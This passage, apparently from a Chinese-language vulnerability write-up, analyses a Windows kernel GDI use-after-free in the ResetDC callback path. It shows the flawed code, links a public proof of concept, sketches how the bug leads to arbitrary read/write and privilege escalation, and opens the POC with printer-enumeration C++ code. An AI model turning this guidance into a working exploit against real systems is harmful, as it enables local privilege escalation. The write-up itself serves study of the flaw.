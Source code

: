 ```
                    // VULN: Method is taken from old (possibly destroyed) `po`
                    PFN_DrvResetPDEV rfn = po->ppfn[INDEX_DrvResetPDEV];
 
                    if (rfn != NULL)
                    {
                        (*rfn)(po->dhpdev, poNew->dhpdev);
                    }
 
                    // [...]
                }
            }
        }
    }
 
    // Destroy old DC
    // [...]
},

```

相信看到这里的读者都已经了解漏洞的产生原因，接下来我们对 POC 进行一定的调试分析

漏洞验证
====

自己跟着写的 POC 还是有点问题，因此待会还是暂时拿别人的 [POC](https://github.com/ly4k/CallbackHell/blob/main/CallbackHell/CallbackHell.cpp) 调试，下面我写的代码只是按着步骤进行拆分，方便理解

 

根据 Kaspersky 的揭露，在执行 ResetDC 的回调函数时，对相同的句柄再次调用 ResetDC，即可触发漏洞。利用此漏洞需要使用`GDI palette`对象和一个内核函数达到任意地址读写，如果 EXP 处于 Medium IL，可以利用`NtQuerySystemInformation和EnumDeviceDrivers`去泄露内核模块地址，最终可以进行权限提升

 

漏洞验证可以分为以下步骤：

*   使用`EnumPrinters`(枚举打印机) 寻找可利用的某打印机驱动

```
// get the size of PRINTER_INFO_4A structure array
DWORD pcbNeeded = 0, pcReturned = 0;
EnumPrintersA(PRINTER_ENUM_LOCAL, NULL, 4, NULL, 0, &pcbNeeded, &pcReturned);
if (pcbNeeded <= 0)
{
    cout << "[-] Failed To Find Any Available Printers" << endl;
    return FALSE;
}
 
PRINTER_INFO_4A* pPrinterInfo = NULL;
pPrinterInfo = static_cast(malloc(pcbNeeded));
if (!pPrinterInfo)
{
    cout << "[-] Failed To Allocate Buffer For PRINTER_INFO Array" << endl;
    return FALSE;
}
 
// store all PRINTER_INFO_4A structures to heap
BOOL retStatus = FALSE;
retStatus = EnumPrintersA(PRINTER_ENUM_LOCAL, NULL, 4, (LPBYTE)pPrinterInfo, pcbNeeded, &pcbNeeded, &pcReturned);
if (!retStatus)
{
    cout << "[-] Failed To Store All PRINTER_INFO Structures" << endl;
    return FALSE;
} 
```
